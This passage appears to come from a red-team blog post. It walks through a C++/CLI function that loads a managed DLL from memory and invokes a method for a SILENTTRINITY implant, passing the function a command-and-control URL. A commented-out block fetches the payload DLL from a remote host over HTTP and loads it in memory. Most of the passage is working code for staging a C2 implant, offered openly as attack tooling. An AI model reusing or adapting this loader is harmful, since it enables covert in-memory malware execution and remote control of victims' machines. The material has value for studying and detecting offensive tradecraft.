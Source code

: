 After the Loader Lock avoidance, we use common C++ code to obtain the embedded resource and pass it into the managed LaunchDLL function. The CLR and your managed method will be automatically bootstrapped.

#### The Managed Code

Let's get this out of the way: C++/CLI is ugly. It's disgusting. It's hideous. Look at that monstrosity of syntax below. 
For whatever disgusting reason you must use the `^` symbol preceeding a variable name. And to get the strings and other input to pass correctly into managed API calls you must marshall them from their unmanaged form to their managed form.

Please note, this sample code was designed for an older version of SILENTTRINITY that used a different staging process.

```cpp
#using <mscorlib.dll>
#include "stdafx.h"
#using <System.dll>

// Load a managed DLL from a byte array and call a static method in the DLL.
// dll - the byte array containing the DLL
// dllLength - the length of 'dll'
// className - the name of the class with a static method to call.
// methodName - the static method to call. Must expect no parameters.
void LaunchDll(
	unsigned char *dll, size_t dllLength,
	char const *className, char const *methodName)
{
	// convert passed in parameter to managed values
	cli::array<unsigned char>^ mdll = gcnew cli::array<unsigned char>(dllLength);

	System::Runtime::InteropServices::Marshal::Copy(
		(System::IntPtr)dll, mdll, 0, mdll->Length);
	System::String^ cn =
		System::Runtime::InteropServices::Marshal::PtrToStringAnsi(
		(System::IntPtr)(char*)className);
	System::String^ mn =
		System::Runtime::InteropServices::Marshal::PtrToStringAnsi(
		(System::IntPtr)(char*)methodName);

	/**
	/Downloads the Assembly from a hardcoded URI. Comment out the stuff above.
	
	System::Net::WebClient ^_client = gcnew System::Net::WebClient();

	System::String ^uri = "http://192.168.197.133:8000/SILENTTRINITY_DLL.dll";

	System::Console::WriteLine("Downloading payload from: " + uri);

	cli::array<unsigned char>^ mdll = _client->DownloadData(uri);
	**/

	// used the converted parameters to load the DLL, find, and call the method.
	System::String^ args =
		System::Runtime::InteropServices::Marshal::PtrToStringAnsi(
		(System::IntPtr)(char*)"http://192.168.197.134:80");

	array< System::Object^ >^ arr = gcnew array< System::Object^ >(1);
	arr[0] = args;

	System::Reflection::Assembly^ a = System::Reflection::Assembly::Load(mdll);
	a->GetType(cn)->GetMethod(mn)->Invoke(nullptr, arr);
}
```
